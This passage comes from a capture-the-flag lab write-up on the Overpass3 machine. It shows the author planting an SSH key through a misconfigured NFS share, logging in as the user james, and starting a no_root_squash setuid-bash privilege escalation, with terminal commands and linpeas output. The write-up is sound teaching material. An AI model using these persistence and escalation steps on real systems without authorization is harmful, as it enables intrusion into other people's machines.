 As we have access to `james`'s home, we can add our SSH public key to connect as `james` via SSH directly.

~~~
┌──(kali㉿kali)-[/data/Overpass3/files/nfs]
└─$ ls -la
total 20
drwx------ 3 kali kali  112 Nov 17 22:15 .
drwxr-xr-x 3 kali kali 4096 May  4 15:22 ..
lrwxrwxrwx 1 root root    9 Nov  8 22:45 .bash_history -> /dev/null
-rw-r--r-- 1 kali kali   18 Nov  8  2019 .bash_logout
-rw-r--r-- 1 kali kali  141 Nov  8  2019 .bash_profile
-rw-r--r-- 1 kali kali  312 Nov  8  2019 .bashrc
drwx------ 2 kali kali   61 Nov  8 03:20 .ssh
-rw------- 1 kali kali   38 Nov 17 22:15 user.flag
                                                                                                                     
┌──(kali㉿kali)-[/data/Overpass3/files/nfs]
└─$ cp ~/.ssh/id_rsa.pub .ssh/authorized_keys   
~~~

Now, connect as james:

~~~
$ ssh james@10.10.158.2
~~~

## Privilege Escalation

Remember that `linpeas.sh` reported the following lines:

~~~
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
~~~

The presence of the `no_root_squash` option is a good news for us (see below explanation).

By default, NFS shares change the root user to the `nfsnobody` user, an unprivileged user account. In this way, all root-created files are owned by `nfsnobody`, which prevents uploading of programs with the setuid bit set. However, if the `no_root_squash is used` option is used, remote root users are able to change any file on the shared file system and leave trojaned applications for other users to inadvertently execute.

I first tried to copy the `bash` binary from my Kali box to the NFS share, but it failed to execute on the target:

~~~
[james@localhost ~]$ ./bash -p
./bash: /lib64/libtinfo.so.6: no version information available (required by ./bash)
~~~

I then tried to copy the version of bash to `james`' home and it worked. On the target, as `james`, I first copied the `bash` binary to the home folder:

~~~
[james@localhost ~]$ cp /usr/bin/bash /home/james/
~~~
